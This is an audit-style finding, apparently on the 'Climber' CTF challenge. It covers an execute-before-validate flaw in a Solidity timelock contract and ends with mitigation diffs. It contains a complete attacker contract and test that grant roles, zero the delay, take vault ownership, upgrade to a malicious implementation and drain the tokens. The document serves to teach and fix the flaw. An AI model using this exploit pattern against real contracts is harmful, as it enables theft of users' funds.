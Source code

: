 ## Critical Severity Issues

### [C-1] Execute-Before-Validate Vulnerability in `ClimberTimelock::execute` function

**Description:** The `ClimberTimelock` contract is responsible for scheduling operations which can be executed by anyone after a `1 hour` delay by invoking the `execute` function. The `execute` function has a critical vulnerability, which does not check whether a specific operation is queued or not before making an external call. A malicious actor can take advantage of this vulnerability and exploit the entire protocol to drain all the funds.

```javascript

function execute(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements,  bytes32 salt
    ) external payable {
        if (targets.length <= MIN_TARGETS) {
            revert InvalidTargetsCount();
        }

        if (targets.length != values.length) {
            revert InvalidValuesCount();
        }

        if (targets.length != dataElements.length) {
            revert InvalidDataElementsCount();
        }

        bytes32 id = getOperationId(targets, values, dataElements, salt);


        for (uint8 i = 0; i < targets.length; ++i) {
@>           targets[i].functionCallWithValue(dataElements[i], values[i]);
        }


@>       if (getOperationState(id) != OperationState.ReadyForExecution) {
            revert NotReadyForExecution(id);
        }

        operations[id].executed = true;
    }
```

**Impact:** An attacker can exploit this vulnerability to acquire the entire protocol funds.

**Proof of Concept:**

1. Attacker calls the `execute` function
2. Pass encoded parameters which make external calls
3. Under the hood, external calls update:
   3.1 `PROPOSER_ROLE` using `grantRole(bytes32,address)`
   3.2 `updateDelay(uint64)`
   3.3 `transferOwnership(address)`
   3.4 `scheduleOperation()`

4. Upgrades the implementation to a malicious contract
5. Calls the `drainFunds` function in the malicious contract

```javascript
Attacker contract:

contract Attack {
    ClimberVault vault; 
    ClimberTimelock timelock;
    address token;
    address recovery;

    address[] targets;
    uint256[] values;
    bytes[] dataElements;
    bytes32 salt;

    constructor( ClimberVault _vault, ClimberTimelock _timelock, address _token, address _recovery) {
        vault = _vault;
        timelock = _timelock;
        token = _token;
        recovery = _recovery;
        salt = bytes32(0);
    }

    function attack() external {
        address maliciousImpl = address(new MaliciousVault());

        targets = new address[](4);
        values = new uint256[](4);
        dataElements = new bytes[](4);

        // 1. Grant PROPOSER_ROLE to this contract
        targets[0] = address(timelock);
        values[0] = 0;
        dataElements[0] = abi.encodeWithSignature(
            "grantRole(bytes32,address)",
            keccak256("PROPOSER_ROLE"),
            address(this)
        );

        // 2. Update delay to 0
        targets[1] = address(timelock);
        values[1] = 0;
        dataElements[1] = abi.encodeWithSignature(
            "updateDelay(uint64)",
            uint64(0)
        );

        // 3. Make timelock transfer ownership of vault to this contract
        targets[2] = address(vault);
        values[2] = 0;
        dataElements[2] = abi.encodeWithSignature(
            "transferOwnership(address)",
            address(this)
        );

        // 4. Schedule this operation
        targets[3] = address(this);
        values[3] = 0;
        dataElements[3] = abi.encodeWithSignature("scheduleOperation()");

        // 5. Execute 
        timelock.execute(targets, values, dataElements, salt);

        // 6. Upgrade
        vault.upgradeToAndCall(maliciousImpl, "");

        // Drain the funds
        MaliciousVault(address(vault)).drainFunds(token, recovery);
    }

    function scheduleOperation() external {
        timelock.schedule(targets, values, dataElements, salt);
    }
}

contract MaliciousVault is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;
    constructor() {
        _disableInitializers();
    }

    function drainFunds(address tokenAddress, address receiver) external {
        ERC20 token = ERC20(tokenAddress);
        uint256 balance = token.balanceOf(address(this));


        SafeTransferLib.safeTransfer(token, receiver, balance);
    }

    function _authorizeUpgrade(address newImplementation) internal override onlyOwner {}
}


Test Case:

 function test_Attack() public {
        address recovery = makeAddr("recovery Address");
        Attack attacker = new Attack(
            getProxy(),
            climberTimelock,
            address(token),
            recovery
        );
        attacker.attack();

        token.balanceOf(address(erc1967Proxy));
        token.balanceOf(recovery);
    }

```

**Recommended Mitigation:**

1. First validate the operation, then make an external call.

```diff

function execute(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements,  bytes32 salt
    ) external payable {
        if (targets.length <= MIN_TARGETS) {
            revert InvalidTargetsCount();
        }

        if (targets.length != values.length) {
            revert InvalidValuesCount();
        }

        if (targets.length != dataElements.length) {
            revert InvalidDataElementsCount();
        }

        bytes32 id = getOperationId(targets, values, dataElements, salt);


-        for (uint8 i = 0; i < targets.length; ++i) {
-           targets[i].functionCallWithValue(dataElements[i], values[i]);
-        }


-       if (getOperationState(id) != OperationState.ReadyForExecution) {
-           revert NotReadyForExecution(id);
-        }


+       if (getOperationState(id) != OperationState.ReadyForExecution) {
+           revert NotReadyForExecution(id);
+        }


+        for (uint8 i = 0; i < targets.length; ++i) {
+           targets[i].functionCallWithValue(dataElements[i], values[i]);
+        }

        operations[id].executed = true;
    }

```

2. Add access control to the `updateDelay` function.

```diff

-  function updateDelay(uint64 newDelay) external {
+  function updateDelay(uint64 newDelay) external onlyRole(PROPOSER_ROLE) {
        if (msg.sender != address(this)) {
            revert CallerNotTimelock();
        }

        if (newDelay > MAX_DELAY) {
            revert NewDelayAboveMax();
        }

        delay = newDelay;
    }

```
